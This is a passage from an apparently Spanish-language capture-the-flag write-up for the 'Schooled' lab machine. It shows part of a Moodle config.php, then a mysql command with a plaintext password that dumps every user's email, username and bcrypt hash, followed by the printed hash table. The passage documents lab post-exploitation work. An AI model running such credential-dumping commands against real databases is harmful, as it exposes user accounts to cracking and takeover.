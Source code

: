 ```
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

`Dumpeamos` las `contraseñas` de la `base` de `datos`

```
[www@Schooled /home]$ /usr/local/bin/mysql -u moodle --password=PlaybookMaster2020 -e "use moodle; select email,username,password from mdl_user; exit"
mysql: [Warning] Using a password on the command line interface can be insecure.
email	username	password
root@localhost	guest	$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
jamie@staff.schooled.htb	admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
bell_oliver89@student.schooled.htb	bell_oliver89	$2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
orchid_sheila89@student.schooled.htb	orchid_sheila89	$2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
chard_elizabeth89@student.schooled.htb	chard_ellzabeth89	$2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
morris_jake89@student.schooled.htb	morris_jake89	$2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
heel_james89@student.schooled.htb	heel_james89	$2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
nash_michael89@student.schooled.htb	nash_michael89	$2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
singh_rakesh89@student.schooled.htb	singh_rakesh89	$2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
taint_marcus89@student.schooled.htb	taint_marcus89	$2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
walls_shaun89@student.schooled.htb	walls_shaun89	$2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
smith_john89@student.schooled.htb	smith_john89	$2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
white_jack89@student.schooled.htb	white_jack89	$2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
travis_carl89@student.schooled.htb	travis_carl89	$2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S
mac_amy89@student.schooled.htb	mac_amy89	$2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
james_boris89@student.schooled.htb	james_boris89	$2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
pierce_allan89@student.schooled.htb	pierce_allan	$2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
henry_william89@student.schooled.htb	henry_william89	$2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
harper_zoe89@student.schooled.htb	harper_zoe89	$2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
wright_travis89@student.schooled.htb	wright_travis89	$2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
allen_matthew89@student.schooled.htb	allen_matthew89	$2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
sanders_wallis89@student.schooled.htb	sanders_wallis89	$2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
```